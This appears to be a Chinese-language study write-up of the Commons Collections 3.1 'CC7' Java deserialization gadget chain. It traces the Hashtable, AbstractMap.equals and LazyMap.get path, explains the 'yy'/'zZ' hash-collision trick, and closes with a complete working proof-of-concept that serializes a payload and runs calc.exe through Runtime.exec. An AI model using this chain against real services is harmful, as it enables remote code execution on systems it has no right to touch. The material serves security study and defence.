





## 简介
CC7 也是利用的Commons Collections 3.1 的利用，看ysoserial里的利用链为入口是HashTable，针对HashTable的反序列化，再通过`AbstractMap#equals`来调用`LazyMap#get`
```java
/*
    Payload method chain:

    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
*/
```
## 链路分析
```java
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();

Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy",1);

Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);


Hashtable hashtable = new Hashtable();

hashtable.put(lazyMap1, 2);
hashtable.put(lazyMap2, 1);
```
### 0x1
CC7 这里有一个知识点，直接看`HashTable#put`函数，传入的key和value为我们传入的第二个key-value对，在这个函数里，我们可以看到他会判断是否和传入的第一个值是否重复，也就是代码块中第8行到第17行，如果已经存在，就不会再写入hashtable中，如果不存在则会直接写入
在此处可以看到首先会对传入的key（也就是lazymap）进行执行一次hashcode()计算hash值，然后会对比已经存在hashtable的数据的hash是否与我们传入的`key.hashCode()`是否相等，然后就会调用已存在的lazymap1与传入的lazymap2进行比较
```java
public synchronized V put(K key, V value) {
    // Make sure the value is not null
    if (value == null) {
        throw new NullPointerException();
    }

    // Makes sure the key is not already in the hashtable.
    Entry<?,?> tab[] = table;
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;
    @SuppressWarnings("unchecked")
    Entry<K,V> entry = (Entry<K,V>)tab[index];
    for(; entry != null ; entry = entry.next) {
        if ((entry.hash == hash) && entry.key.equals(key)) {
            V old = entry.value;
            entry.value = value;
            return old;
        }
    }

    addEntry(hash, key, value, index);
    return null;
}
```
这里我再补充一下hashCode函数做了什么操作，在下图可以看见，对Key和Value进行Objects.hashCode()之后又做了一次异或，这时就需要保证`Objects.hashCode(key1) == Objects.hashCode(key2)`，`Objects.hashCode(value1) == Objects.hashCode(value2)`,这样计算出来的hashCode才是相等的，这里我尝试了很多，都没有发现相等的Key，ysoserial的作者给出的 `yy` 和 `zZ` hashCode就是相等的




### 0x2
然后再看equals 函数，这里可以看到传入的object 为lazymap2，当前的this.map 为第一个传入的lazymap1(因为是他调用的equals方法)，然后再跟进equals
```java
// AbstractMapDecorator.java
public boolean equals(Object object) {
    return object == this ? true : this.map.equals(object);
}
```
跟进下面代码块第8-24行，这里m为传入的lazymap2，第13行从迭代器里取出来的是已经写入到HashTable里的Entry，然后遍历获取对应的map（因为只有1个，这里就以lazymap1来说明了），获取lazymap1的key以及value，如果value 不为null，这里在22行就存在`value.equals(m.get(key))`，在这里我们不需要再关注这个equals函数，而是对m.get(key)关注，m为lazymap2，而调用get方法就是我们最终的目的，虽然现在还是在序列化过程中
```java
// AbstractMap
public boolean equals(Object o) {
    if (o == this)
        return true;

    if (!(o instanceof Map))
        return false;
    Map<?,?> m = (Map<?,?>) o;
    if (m.size() != size())
        return false;

    try {
        Iterator<Entry<K,V>> i = entrySet().iterator();
        while (i.hasNext()) {
            Entry<K,V> e = i.next();
            K key = e.getKey();
            V value = e.getValue();
            if (value == null) {
                if (!(m.get(key)==null && m.containsKey(key)))
                    return false;
            } else {
                if (!value.equals(m.get(key)))
                    return false;
            }
        }
    } catch (ClassCastException unused) {
        return false;
    } catch (NullPointerException unused) {
        return false;
    }

    return true;
}
```
在序列化过程中，调用了lazymap的get方法之后，返回了value(Object) ，



此时lazymap就多了这个value




### 0x3 
那么在反序列化时，要保证要调用`lazymap#get`，那么需要保证两个lazymap被hashcode()之后，一定要相等，且调用的是`lazymap2#get`,那么lazymap2的`Transformer factor` 就要为执行命令的transformers，也需要将多余的LazyMap删除掉
```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
};

lazyMap2.remove("yy");

Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);
```
## POC
完整poc如下
```java
package com.myproject;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class TestCC7 {
    public static void main(String[] args) throws Exception {
        Transformer[] fackerTransformer = new Transformer[]{};
        Transformer transformerChain = new ChainedTransformer(fackerTransformer);
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };


        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy",1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);


        Hashtable hashtable = new Hashtable();

        hashtable.put(lazyMap1, 2);
        hashtable.put(lazyMap2, 1);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);
        lazyMap2.remove("yy");
        try {
            FileOutputStream fileOutputStream = new FileOutputStream("cc7.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashtable);

            FileInputStream fileInputStream = new FileInputStream("cc7.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```
## 调试
直接在`LazyMap#get`处打上断点，可以清晰看到对应的反序列化堆栈，就和序列化是一样的，最后把lazymap2里多余的键值对删除，并将其`Transformer factor`更改为cc1的经典transformers，然后再链式调用即可执行命令





